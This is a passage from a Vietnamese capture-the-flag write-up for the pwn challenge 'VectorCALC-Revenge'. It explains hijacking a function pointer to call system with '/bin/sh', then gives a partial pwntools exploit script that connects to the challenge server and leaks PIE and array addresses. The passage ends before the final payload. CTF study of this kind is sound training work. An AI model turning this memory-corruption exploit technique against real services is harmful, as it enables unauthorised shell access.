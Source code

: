Vậy `sum -> v_list+8`, khi gọi con trỏ hàm thì `v_list+24->w1n` sẽ được gọi, với `sum` đang chứa địa chỉ chuỗi `/bin/sh`

-> Nhưng không thành công có được shell vì bị stack alignment cả local và remote

-> Mình thử thay thế bằng `system.plt` thì không dính stack aligment và thành công chiếm được shell

Sau đây là script exploit của mình
Vector Exploit:
[xpl.py](https://github.com/w1n-gl0ry/CTF/blob/main/2023/miniCTF/pwn/VectorCALC-Revenge/xpl.py)

```python
from pwn import *

#context.log_level='debug'
#io=process('./chall_revenge')
io=remote('45.122.249.68', 20018)
elf=context.binary=ELF('./chall_revenge')

#gdb.attach(io)

def enter(idx, x, y):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'Index: ', idx)
    io.sendlineafter(b'Enter x: ', x)
    io.sendlineafter(b'Enter y: ', y)
    
def sumVector(idx):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'Save the sum to index: ', idx)
    
def printsum():
    io.sendlineafter(b'> ', b'3')
    
def loadfav(idx):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b'Index', idx)
    
def printfav(idx):
    io.sendlineafter(b'> ', b'5')
    io.sendlineafter(b'Index', idx)
    
def addfav(idx):
    io.sendlineafter(b'> ', b'6')
    io.sendlineafter(b'Index', idx)
    
enter(b'0', b'1', b'1')
enter(b'1', b'1', b'1')
enter(b'2', b'1', b'1')

sumVector(b'2')
loadfav(b'2')
printfav(b'2')

io.recvuntil(b'v = [')

leak=io.recvline().strip(b']\n').split()
# print(leak)

pie=int(leak[0])-0x35d
log.info('pie_base :' + hex(pie))

v_list=int(leak[1])-48
log.info('v_list array :' + hex(v_list))

sum=v_list+64
```